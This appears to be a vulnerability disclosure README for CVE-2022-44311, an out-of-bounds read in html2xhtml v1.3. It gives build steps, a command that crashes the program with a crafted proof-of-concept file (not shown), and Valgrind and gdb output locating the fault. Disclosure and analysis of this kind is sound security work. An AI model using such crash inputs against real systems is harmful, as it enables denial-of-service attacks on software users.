# CVE-2022-44311

html2xhtml v1.3 was discovered to contain an Out-Of-Bounds read in the function static void elm_close(tree_node_t *nodo) at procesador.c. This vulnerability allows attackers to access sensitive files or cause a Denial of Service (DoS) via a crafted html file.

## Reproduction

To reproduce the vulnerability, download a vulnerable version of html2xhtml (v1.3) and compile the project:

```
wget http://www.it.uc3m.es/jaf/html2xhtml/downloads/html2xhtml-1.3.tar.gz
tar -xzvf html2xhtml-1.3.tar.gz
cd html2xhtml-1.3
./configure
make
cd src
```

Once the project has been compiled, we can point html2xhtml towards our proof of concept file included in this repository (CVE-2022-44311_crash):

```
./html2xhtml -t frameset ./CVE-2022-44311_crash
```

The previous command will produce a crash and return an error message:

```
zsh: segmentation fault  ./src/html2xhtml -t frameset ./CVE-2022-44311_crash
```

Attaching valgrind to the program can help us understand what is causing the crash:

```
└─$ valgrind ./src/html2xhtml -t frameset ./CVE-2022-44311_crash
==267753== Memcheck, a memory error detector
==267753== Copyright (C) 2002-2022, and GNU GPL'd, by Julian Seward et al.
==267753== Using Valgrind-3.19.0 and LibVEX; rerun with -h for copyright info
==267753== Command: ./src/html2xhtml -t frameset ./CVE-2022-44311_crash
==267753== 
==267753== Invalid read of size 4
==267753==    at 0x11B18A: elm_close (procesador.c:944)
==267753==    by 0x11B18A: err_html_struct (procesador.c:1889)
==267753==    by 0x11BBB5: err_content_invalid (procesador.c:1291)
==267753==    by 0x11BBB5: elm_close.part.0 (procesador.c:959)
==267753==    by 0x11C4C0: elm_close (procesador.c:944)
==267753==    by 0x11C4C0: saxEndDocument (procesador.c:233)
==267753==    by 0x1144AE: main (html2xhtml.c:117)
==267753==  Address 0x3ec404 is not stack'd, malloc'd or (recently) free'd
==267753== 

```


Valgrind tells us that an out-of-bounds read of size 4 is taking place in procesador.c, line 944. Attaching gdb to our program and executing the malicious file can confirm the valgrind output:

```
$ gdb src/html2xhtml
pwndbg> r -t frameset ./CVE-2022-44311_crash

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA                                                     
────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 RAX  0xb11ae                                                                                         
 RBX  0x5555555dd344 ◂— 0x3                                                                                                                                                                                  
 RCX  0x5a
 RDX  0x2                                                                                             
 RDI  0x555555573d40 (elm_list) ◂— 0x6c6d7468 /* 'html' */
 RSI  0x555555573160 (elm_buffer) ◂— 0xd9810100028b8101                                                                                                                                                      
 R8   0x1
 R9   0x5555555ee520 ◂— 0x5555555ee                                                                   
 R10  0x0                                                                                                                                                                                                    
 R11  0x7ffff7df2800 (iconv_close) ◂— cmp    rdi, -1
 R12  0x5555555dd2d6 ◂— 0x0                                                                           
 R13  0x7ffffffedc70 ◂— 0x600000001                                                                   
 R14  0x5555555dd2d6 ◂— 0x0                                                                           
 R15  0x4
 RBP  0x555555573d40 (elm_list) ◂— 0x6c6d7468 /* 'html' */                    
 RSP  0x7ffffffedc30 ◂— 0x1                                                                                                                                                                                  
 RIP  0x55555556718a (err_html_struct+474) ◂— cmp    dword ptr [rbp + rax*4 + 0xc], 4
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555556718a <err_html_struct+474>    cmp    dword ptr [rbp + rax*4 + 0xc], 4
   0x55555556718f <err_html_struct+479>    jne    err_html_struct+489                <err_html_struct+489>
    ↓                                                                                                 
   0x555555567199 <err_html_struct+489>    mov    rbx, qword ptr [rbx + 8]
   0x55555556719d <err_html_struct+493>    test   rbx, rbx           
   0x5555555671a0 <err_html_struct+496>    jne    err_html_struct+448                <err_html_struct+448>
    ↓                         
   0x555555567170 <err_html_struct+448>    cmp    r12, rbx
   0x555555567173 <err_html_struct+451>    je     err_html_struct+498                <err_html_struct+498>
    ↓  
   0x5555555671a2 <err_html_struct+498>    xor    edi, edi                                                                                                                                                   
   0x5555555671a4 <err_html_struct+500>    mov    qword ptr [rip + 0x4d6d5], r12 <actual_element>
   0x5555555671ab <err_html_struct+507>    call   new_tree_node                <new_tree_node>
                                                                                                      
   0x5555555671b0 <err_html_struct+512>    mov    dword ptr [rax + 0x18], 0x59
──────────────────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]──────────────────────────────────────────────────────────────────────────────────────────────
In file: /dev/shm/html2xhtml-1.3/src/procesador.c                                                     
   939 static void elm_close(tree_node_t *nodo)
   940 {                          
   941   DEBUG("elm_close()");                                                                                                                                                                               
   942   EPRINTF1("cerrando elemento %s\n",ELM_PTR(nodo).name);
   943                                     
 ► 944   if (ELM_PTR(nodo).contenttype[doctype]==CONTTYPE_CHILDREN) {
   945     /* si es de tipo child se comprueba su contenido */
   946     int content[16384];           
   947     int i, num;                   
   948     tree_node_t *elm;    
   949           
```

GDB confirmed that the program is attempting to read from an invalid memory address when executing the following lines of source code:
 
```
 ► 944   if (ELM_PTR(nodo).contenttype[doctype]==CONTTYPE_CHILDREN) {
   945     /* si es de tipo child se comprueba su contenido */
   946     int content[16384];           
   947     int i, num;                   
   948     tree_node_t *elm; 
```

## References
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-44311
* https://cwe.mitre.org/data/definitions/125.html

  
